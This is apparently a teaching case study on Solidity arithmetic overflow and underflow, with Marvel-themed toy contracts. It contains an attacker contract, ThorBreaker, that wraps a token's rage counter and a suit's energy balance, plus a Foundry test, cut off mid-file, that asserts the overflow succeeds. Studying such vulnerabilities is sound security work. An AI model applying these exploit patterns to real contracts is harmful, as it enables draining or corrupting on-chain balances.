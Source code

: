 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {HulkRageToken} from "./Post/HulkRageToken.sol";
import {IronManSuit} from "./Post/IronManSuit.sol";

contract ThorBreaker {
    HulkRageToken public hulk;
    IronManSuit public ironMan;

    constructor(address _hulk, address _ironMan) {
        hulk = HulkRageToken(_hulk);
        ironMan = IronManSuit(_ironMan);
    }

    function breakHulk() external {
        // Step 1: Increase rage close to max (255)
        hulk.getAngry(250); // rage = 250

        // Step 2: Trigger overflow
        // 250 + 10 = 260 → wraps to 4
        hulk.getAngry(10);
    }

    function breakIronMan() external {
        // Step 1: Start with energy = 0
        // Step 2: Drain 100 → underflow to 2^256 - 100
        ironMan.drainEnergy(100);
    }
}
```
---

## Foundry Test Example (`ThorBreakerTest.t.sol`)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test} from "forge-std/Test.sol";
import {HulkRageToken} from "../../src/Multiverse-Case-Studies/Arithmetic-Overflow-Underflow/Post/HulkRageToken.sol";
import {IronManSuit} from "../../src/Multiverse-Case-Studies/Arithmetic-Overflow-Underflow/Post/IronManSuit.sol";
import {ThorBreaker} from "../../src/Multiverse-Case-Studies/Arithmetic-Overflow-Underflow/ThorBreaker.sol";

contract ThorBreakerTest is Test {
    HulkRageToken hulk;
    IronManSuit ironMan;
    ThorBreaker thor;

    function setUp() public {
        hulk = new HulkRageToken();
        ironMan = new IronManSuit();
        thor = new ThorBreaker(address(hulk), address(ironMan));
    }

    function test_Break_Hulk() public {
        thor.breakHulk();
        uint8 finalRage = hulk.rage(address(thor));
        assertEq(finalRage, 4, "Overflow exploit failed");
    }
```